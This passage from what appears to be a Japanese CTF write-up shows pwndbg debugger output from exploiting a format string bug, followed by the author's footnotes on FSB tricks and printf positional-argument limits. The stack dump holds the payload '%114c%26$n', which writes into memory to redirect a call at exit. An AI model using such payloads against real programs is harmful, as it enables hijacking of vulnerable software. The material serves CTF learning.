 ```
 R9   0x7fffffffdd24 ◂— 0x1
 R10  0x2
 R11  0x246
 R12  0x0
 R13  0x7fffffffdde0 —▸ 0x7ffff7ffe190 ◂— 0x72 /* 'r' */
 R14  0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000
 R15  0x7ffff7ffe190 ◂— 0x72 /* 'r' */
 RBP  0x7fffffffde50 ◂— 0x0
 RSP  0x7fffffffdde0 —▸ 0x7ffff7ffe190 ◂— 0x72 /* 'r' */
 RIP  0x7ffff7fe0f58 ◂— call   qword ptr [r14]
──────────────────────────────────────[ DISASM ]───────────────────────────────────────
 ► 0x7ffff7fe0f58    call   qword ptr [r14] <0xfef5000000000000>
        rdi: 0x7ffff7ffd968 (_rtld_global+2312) ◂— 0x0
        rsi: 0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000
        rdx: 0x1
        rcx: 0x0
 
   0x7ffff7fe0f5b    mov    rdx, r14
   0x7ffff7fe0f5e    sub    r14, 8
   0x7ffff7fe0f62    cmp    qword ptr [rbp - 0x38], rdx
   0x7ffff7fe0f66    jne    0x7ffff7fe0f58 <0x7ffff7fe0f58>
    ↓
   0x7ffff7fe0f58    call   qword ptr [r14] <0xfef5000000000000>
        rdi: 0x7ffff7ffd968 (_rtld_global+2312) ◂— 0x0
        rsi: 0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000
        rdx: 0x1
        rcx: 0x0
 
   0x7ffff7fe0f5b    mov    rdx, r14
   0x7ffff7fe0f5e    sub    r14, 8
   0x7ffff7fe0f62    cmp    qword ptr [rbp - 0x38], rdx
   0x7ffff7fe0f66    jne    0x7ffff7fe0f58 <0x7ffff7fe0f58>
    ↓
   0x7ffff7fe0f58    call   qword ptr [r14] <0xfef5000000000000>
        rdi: 0x7ffff7ffd968 (_rtld_global+2312) ◂— 0x0
        rsi: 0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000
        rdx: 0x1
        rcx: 0x0
───────────────────────────────────────[ STACK ]───────────────────────────────────────
00:0000│ r13 rsp  0x7fffffffdde0 —▸ 0x7ffff7ffe190 ◂— 0x72 /* 'r' */
01:0008│          0x7fffffffdde8 —▸ 0x7ffff7ffe740 —▸ 0x7ffff7fce000 ◂— jg     0x7ffff7fce047
02:0010│          0x7fffffffddf0 —▸ 0x7ffff7fb7000 —▸ 0x7ffff7dc5000 ◂— 0x3010102464c457f
03:0018│          0x7fffffffddf8 —▸ 0x7ffff7ffd9e8 (_rtld_global+2440) —▸ 0x7ffff7fcf000 ◂— 0x10102464c457f
04:0020│          0x7fffffffde00 ◂— 0x7fffffffde00
... ↓
06:0030│          0x7fffffffde10 —▸ 0x404040 (buf) ◂— '%114c%26$n\n'
07:0038│          0x7fffffffde18 —▸ 0x403e2a (_DYNAMIC+106) ◂— 0xfef5000000000000
─────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────
 ► f 0     7ffff7fe0f58
   f 1     7ffff7e0ea27 __run_exit_handlers+247
   f 2     7ffff7e0ebe0 on_exit
   f 3     7ffff7dec0ba __libc_start_main+250
───────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```


[^1]: このCTFでこの問題を含めて3回出ているので、作者はFSBが好きなのかもしれない
[^2]: pwndbgだと色が付いていて見やすいがブログに出力をコピペする時はそうもいかない
[^3]: Heap Sprayで`nop`を連発したり、ROPで`ret`を連発するみたいな感じで実は気に入っている方法である
[^4]: 更に`printf`では一度位置指定としての数字を使うとその時点で各数字に対応する値が確定する。よって`%n`での書き換えを同一書式文字列で複数回行おうとすると`%n`は実質1回しか使えず、後は`%`を大量に並べるクソパズルになったのもやる気を削いだ原因の1つ